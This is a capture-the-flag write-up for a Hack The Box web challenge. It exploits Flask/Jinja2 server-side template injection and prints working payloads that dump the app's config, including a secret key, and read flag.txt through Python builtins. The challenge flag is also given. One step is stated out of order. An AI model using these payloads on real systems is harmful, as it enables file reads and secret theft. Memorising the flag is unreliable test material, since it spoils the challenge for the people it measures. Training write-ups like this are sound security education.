 # Trial by Fire

**Creator:** makelaris

**Description:** As you ascend the treacherous slopes of the Flame Peaks, the scorching heat and shifting volcanic terrain test your endurance with every step. Rivers of molten lava carve fiery paths through the mountains, illuminating the night with an eerie crimson glow. The air is thick with ash, and the distant rumble of the earth warns of the danger that lies ahead. At the heart of this infernal landscape, a colossal Fire Drake awaits—a guardian of flame and fury, determined to judge those who dare trespass.

With eyes like embers and scales hardened by centuries of heat, the Fire Drake does not attack blindly. Instead, it weaves illusions of fear, manifesting your deepest doubts and past failures. To reach the Emberstone, the legendary artifact hidden beyond its lair, you must prove your resilience, defying both the drake’s scorching onslaught and the mental trials it conjures. Stand firm, outwit its trickery, and strike with precision—only those with unyielding courage and strategic mastery will endure the Trial by Fire and claim their place among the legends of Eldoria.

**Category:** Web

**Difficulty:** very easy

**Points:** 925

**Solves:** 754

**File:** web_trial_by_fire.zip

## Solution 

Upon opening the site, you're prompted to enter your name:
![alt text](image.png)

While exploring the page source and interactions, I discovered that pressing the up arrow key revealed a hidden button labeled "Ancient Capture Device":
 ![alt text](image-1.png)

Clicking it displayed the following message: 
```
You brandish the Ancient Capture Device with defiant resolve!
No ordinary device can capture an elder!
A glowing rune appears: '{{ url_for.__globals__ }}' unlocks the ancient secrets!
Ancient whispers: 'Only Template Scrolls bend fate!'
The Ancient Capture Device pulses, but the Fire Drake remains free.
```
![alt text](image-2.png)

This hinted at SSTI (Server-Side Template Injection) — particularly with `{{ url_for.__globals__ }}` being exposed.

To test for SSTI, I first tried a simple payload `{{7*7}}`

But this didn't work.  After a few other attempts, I tried: `{{config.items()}}` 


This was successful and exposed Flask app configuration data in the battle report output:
```
dict_items([('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('SECRET_KEY', '1c01dfd4f2ec8949be106bc7d61829d8320f4cdf1b5035bb0a33abbc4abbe15d9c644f88eb917a275bea938fb07b0308ac8623ee7ac3ba0b2df3a84d6413dd5c782c3a835f'), ('SECRET_KEY_FALLBACKS', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('TRUSTED_HOSTS', None), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_PARTITIONED', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('MAX_FORM_MEMORY_SIZE', 500000), ('MAX_FORM_PARTS', 1000), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093), ('PROVIDE_AUTOMATIC_OPTIONS', True)])
```

Using the following payload as the name input:`{{get_flashed_messages.__globals__.__builtins__.open("flag.txt").read()}}`

Next I tried to see if I could read the file by putting this in as the name:

This successfully printed the contents of flag.txt, giving me the final flag:`HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_4b56f3d3a4bab0ed0f02b1621305439e}`
![alt text](image-3.png)

